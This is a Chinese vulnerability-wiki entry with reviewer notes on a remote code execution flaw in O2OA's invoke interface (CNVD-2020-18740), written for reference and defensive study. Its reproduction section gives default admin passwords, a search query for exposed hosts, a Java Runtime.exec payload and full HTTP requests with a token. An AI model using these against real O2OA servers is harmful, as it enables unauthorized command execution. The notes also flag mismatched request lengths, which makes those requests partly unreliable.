





# O2OA invoke后台脚本执行

## 条目说明

- 对象与具体问题：O2OA；invoke后台脚本执行
- 版本、配置及部署条件：影响写6.x、测试6.2.0、声称7.2.7修复，范围需协调
- 认证与权限前提：管理员及authorization头
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- CNVD为主标识；后台前提清楚，默认凭证应当单独关联配置风险
- 固定Content-Length与请求体不符，执行POST标1048但无正文
- 未给最低漏洞权限或安全边界

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

O2OA 是一款开源免费的企业及团队办公平台，提供门户管理、流程管理、信息管理、数据管理四大平台，集工作汇报、项目协作、移动 OA、文档分享、流程审批、数据协作等众多功能，满足企业各类管理和协作需求。 O2OA 系统 invoke 接口存在远程代码执行漏洞。攻击者可利用漏洞执行任意代码。此漏洞在 O2OA 7.2.7 版本得到修复。

参考链接：

- https://www.cnvd.org.cn/flaw/show/CNVD-2020-18740

### 披露时间

2020-04-06

### 漏洞影响

```
O2OA 6.x
```

### 网络测绘

```
title=="O2OA"
```

### 环境搭建

在 [官网下载](https://www.o2oa.net/download.html) 一个 6.2.0 版本，本地搭建测试：

```
unzip o2server-6.2.0-linux-x64.zip 
cd o2server
./start_linux.sh
```


### 漏洞复现

默认密码登录后台 `xadmin/o2`（或 `xadmin/o2oa@2022`），点击 `Service Platform` 进入服务平台：




点击 `Create Service` 创建一个服务：




填写必填项，写入 payload：

```
var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream()));

var result = [];
while (true) {
    var oneline = bufReader.readLine();
    result.push(oneline);
    if (!oneline) break;
}
var result = { "Result": result };
this.response.setBody(result, "application/json"); 
```




部分版本可以直接执行，有些版本需要构造请求包：

```http
POST /x_program_center/jaxrs/invoke?v=6.1 HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
Origin: http://10.0.12.15
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA

{"id":"test","name":"test","enableToken":false,"alias":"","description":"","validated":true,"enable":true,"text":"var bufReader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec(\"id\").getInputStream()));\n\nvar result = [];\nwhile (true) {\n    var oneline = bufReader.readLine();\n    result.push(oneline);\n    if (!oneline) break;\n}\nvar result = { \"Result\": result };\nthis.response.setBody(result, \"application/json\"); ","remoteAddrRegex":"","createTime":"2025-02-28 15:54:17","updateTime":"2025-02-28 15:54:17"}
```

> 请求长度说明：原资料 Content-Length 为 1048；静态长度已移除，应由客户端根据最终请求体的字节数生成。




创建成功后访问接口执行系统命令：

```http
POST /x_program_center/jaxrs/invoke/test/execute HTTP/1.1
Host: 10.0.12.15:20030
Accept: */*
Referer: http://10.0.12.15/
Accept-Encoding: gzip, deflate
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.6788.76 Safari/537.36
Content-Type: application/json; charset=UTF-8
authorization: PfyuxmzgIzrLF0IUhEF-rgO3PHNy_z4650QnO7mEHhA
Content-Length: 1048
```




### 漏洞修复

建议升级 O2OA 最新版本： https://www.o2oa.net/download.html


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
